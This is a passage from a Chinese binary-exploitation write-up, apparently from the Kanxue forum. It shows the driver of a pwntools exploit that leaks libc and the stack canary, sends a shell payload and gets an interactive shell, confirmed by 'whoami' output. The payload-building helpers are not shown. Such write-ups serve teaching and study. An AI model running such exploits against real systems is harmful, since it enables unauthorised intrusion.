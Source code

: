 ```text
    target_info['libc_info'] = pwn.ELF(target_info['libc_info'])

    pwn.pause()

    leak_payload = leak_payload_get()
    conn.sendlineafter('>>>>\n', leak_payload)
    target_info['leak_data'] = conn.recvuntil('endtag')
    print(target_info['leak_data'])
    target_info['leak_data'] = target_info['leak_data'][0:-1]

    target_info = libc_base_get(target_info)
    target_info = canary_get(target_info)
    target_info = libc_info_get(target_info)
    sh_payload = sh_payload_get(target_info)
    conn.sendlineafter('<<<<\n', sh_payload)
    conn.interactive()

if __name__ == '__main__':
    main()
    sys.exit(0)
```

##  

## **3.3 成功PWN**



完成exploit的构建并运行后，就可以成功获取shell了。

```text
[*] Switching to interactive mode
$ whoami
test
```







看雪ID：福建炒饭乡会

[https://bbs.kanxue.com/user-home-1000123.htm](https://link.zhihu.com/?target=https%3A//bbs.kanxue.com/user-home-1000123.htm)

*本文为看雪论坛优秀文章，由 福建炒饭乡会 原创，转载请注明来自看雪社区